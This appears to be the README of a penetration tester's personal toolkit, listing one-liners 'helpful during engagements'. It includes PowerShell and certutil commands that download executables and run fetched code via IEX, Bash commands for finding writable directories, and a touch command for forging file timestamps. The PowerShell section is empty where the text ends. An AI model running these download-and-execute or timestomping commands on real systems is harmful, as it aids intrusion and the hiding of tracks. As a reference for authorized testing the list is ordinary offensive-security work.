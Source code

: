 # Toolkit
A collection of scripts / payloads and so on which I have found to be helpful during engagements.

## One-Liners

### File download
`powershell (New-Object System.Net.WebClient).DownloadFile('https://domain.com/file.exe', 'file.exe')`
`powershell IEX (New-Object System.Net.WebClient).DownloadString('http://127.0.0.1/file.exe')`
`certutil.exe -urlcache -f https://domain.com/file.exe file.exe`
`wget https://domain.com/file.exe -o file.exe`
`wget --ftp-user=User --ftp-password=ftp://127.0.0.1/file.exe -o file.exe`

### Bash
| Command | Description |
|-----------------------------------------|----------------------------------------------------------|
| `find / -perm -222 -type d 2>/dev/null` | Prints all the directories the user has write access to. |
| `find / -type f -group [GROUP] 2>/dev/null` | Prints any special permissions for GROUP. |
| `touch -a -m -t 202104251300.10 [FILE]` | Change access / last modified time of FILE to 25/04/2021 13:00.10 |
|||

### PowerShell
